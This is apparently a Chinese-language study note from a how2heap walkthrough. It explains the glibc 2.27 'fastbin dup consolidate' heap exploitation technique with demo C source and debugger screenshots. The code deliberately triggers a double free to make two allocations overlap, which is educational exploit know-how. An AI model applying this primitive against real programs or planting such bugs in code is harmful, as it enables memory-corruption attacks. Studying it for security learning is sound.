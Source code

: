 ```yaml
---
title: fastbin dup consolidate
description: 
published: true
date: 2022-10-04T13:18:36.274Z
tags: pwn, 堆利用
editor: markdown
dateCreated: 2022-10-04T13:18:36.274Z
---
```


# 源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

void main() {
	// reference: https://valsamaras.medium.com/the-toddlers-introduction-to-heap-exploitation-fastbin-dup-consolidate-part-4-2-ce6d68136aa8
	puts("This is a powerful technique that bypasses the double free check in tcachebin.");
	printf("Fill up the tcache list to force the fastbin usage...\n");

	void *ptr[7];

	for(int i = 0; i < 7; i++)
		ptr[i] = malloc(0x40);
	for(int i = 0; i < 7; i++)
		free(ptr[i]);

	void* p1 = calloc(1,0x40);

	printf("Allocate another chunk of the same size p1=%p \n", p1);
  printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
  free(p1);

  void* p3 = malloc(0x400);
	printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
	printf("will trigger the malloc_consolidate and merge\n");
	printf("the fastbin chunks into the top chunk, thus\n");
	printf("p1 and p3 are now pointing to the same chunk !\n\n");

	assert(p1 == p3);

  printf("Triggering the double free vulnerability!\n\n");
	free(p1);

	void *p4 = malloc(0x400);

	assert(p4 == p3);

	printf("The double free added the chunk referenced by p1 \n");
	printf("to the tcache thus the next similar-size malloc will\n");
	printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
}
```

# 解析
## 填充tcache
源码中10到15行如下所示
```c
void *ptr[7];

for(int i = 0; i < 7; i++)
  ptr[i] = malloc(0x40);
for(int i = 0; i < 7; i++)
  free(ptr[i]);
```
正如源码中第8行所说的，上面的代码主要是为了填充tcache，从而快速使用fastbin。

## fastbin中放入chunk
源码17到21行如下所示
```c
void* p1 = calloc(1,0x40);

printf("Allocate another chunk of the same size p1=%p \n", p1);
printf("Freeing p1 will add this chunk to the fastbin list...\n\n");
free(p1);
```
这里利用`calloc()`申请一个相同大小但非tcache中的chunk，然后将它释放，从而成功将其放入fastbin中。

## 触发malloc consolidate
源码23至27行如下所示
```c
void* p3 = malloc(0x400);
printf("Allocating a tcache-sized chunk (p3=%p)\n", p3);
printf("will trigger the malloc_consolidate and merge\n");
printf("the fastbin chunks into the top chunk, thus\n");
printf("p1 and p3 are now pointing to the same chunk !\n\n");
```
申请一个0x400的堆块，并将用户指针赋给p3。这里源码中的`tcache-sized chunk`没有理解作者的意思，我的理解是申请一个large bin大小的chunk从而触发`malloc consolidate`。这时`p1`和`p3`会指向相同的chunk，咋一看很神奇，我们来调试一下。

在23行下断点，查看fastbin和堆块，如下图所示：

![h2p_2.27_fbdupconsolidate1.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate1.png){.align-center}
![h2p_2.27_fbdupconsolidate2.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate2.png){.align-center}

可以看到当23行执行之前，之前释放的`p1`被放入了fastbin中，接下来步过一次，看看23执行后有什么变化，如下图所示：

![h2p_2.27_fbdupconsolidate3.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate3.png){.align-center}

可以看到fastbin中没有chunk，而且原本地址上的chunk的Size从0x51变为了0x411。这是因为当我们执行`malloc(0x400)`时触发了`malloc consolidate`，fastbin会被清空，原本被释放的`p1`与top chunk合并，然后再从top chunk分割出一个用户空间为0x400大小的chunk，这一过程中堆块的地址不会发生变化，所以`p1`和`p3`就会指向同一个堆块。

## 触发double free
源码31到40行如下所示：
```c
printf("Triggering the double free vulnerability!\n\n");
free(p1);

void *p4 = malloc(0x400);

assert(p4 == p3);

printf("The double free added the chunk referenced by p1 \n");
printf("to the tcache thus the next similar-size malloc will\n");
printf("point to p3: p3=%p, p4=%p\n\n",p3, p4);
```
这时我们可以再次释放`p1`，虽然释放的是`p1`，但是实际上释放的是之前分配的`p3`，如果当我们再次申请相同大小的chunk时，被释放的`p3`再次被调用，chunk地址被赋给了`p4`，这时`p3`和`p4`也指向相同的chunk。

## 运行结果
![h2p_2.27_fbdupconsolidate4.png](/how2heap/glibc2.27/fastbin_dup_consolidate/h2p_2.27_fbdupconsolidate4.png)

# 总结
申请large bin大小的chunk触发`malloc consolidate`，使fastbin中的chunk的指针与新申请的chunk的指针指向同一chunk，然后就可以二次释放fastbin中的chunk，紧接着也可以再次申请已分配的chunk。
